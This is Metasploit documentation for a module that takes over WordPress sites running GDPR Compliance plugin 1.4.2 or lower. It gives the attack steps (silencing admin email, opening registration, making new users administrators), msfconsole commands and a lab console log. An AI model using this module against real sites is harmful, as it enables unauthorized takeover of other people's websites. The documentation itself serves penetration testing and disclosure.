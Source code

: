 ## Description

This module exploits the [Wordpress GDPR compliance plugin](https://wordpress.org/plugins/wp-gdpr-compliance/) lack of validation ([WPVDB 9144](https://wpscan.com/vulnerability/9144)), which affects versions 1.4.2 and lower.

When a user triggers GDPR-related actions, Wordpress's `admin-ajax.php` is called but fails to do validation and capacity checks regarding the asked actions. This leads to any unauthenticated user being able to modify any arbitrary settings on the targeted server.

This module changes the admin email (optional) to prevent notification sending, enables new user registration, changes the default role of new users to Administrator, and registers a new user that can be used for authentication. The attacker can then log in and take any actions on the newly compromised site.

## Vulnerable Application

[GDPR Compliance plugin <= 1.4.2](https://downloads.wordpress.org/plugin/wp-gdpr-compliance.1.4.2.zip)

## Verification Steps

1. Install the application
2. `./msfconsole`
3. `use auxiliary/admin/http/wp_gdpr_compliance_privesc`
4. `set RHOST [wp host]`
5. `set RPORT [wp port]`
6. `set EMAIL [email address]`
7. `run`

## Scenarios

### Tested on Debian 9.6 running Wordpress 4.7.5 with WordPress GDPR Compliance plugin 1.4.2:

```
msf > use auxiliary/admin/http/wp_gdpr_compliance_privesc
msf auxiliary(admin/http/wp_gdpr_compliance_privesc) > set verbose true
verbose => true
msf auxiliary(admin/http/wp_gdpr_compliance_privesc) > set rhosts 172.22.222.145
rhosts => 172.22.222.145
msf auxiliary(admin/http/wp_gdpr_compliance_privesc) > set email test@example.com
email => test@example.com
msf auxiliary(admin/http/wp_gdpr_compliance_privesc) > check

[*] Checking /wp-content/plugins/wp-gdpr-compliance/readme.txt
[*] Found version 1.4.2 of the plugin
[*] 172.22.222.145:80 The target appears to be vulnerable.
msf auxiliary(admin/http/wp_gdpr_compliance_privesc) > exploit

[*] Getting security token from host...
[!] Enabling user registrations...
[!] Setting the default user role type to administrator...
[*] Registering msfuser with email test@example.com
[*] Auxiliary module execution completed
msf auxiliary(admin/http/wp_gdpr_compliance_privesc) >
```
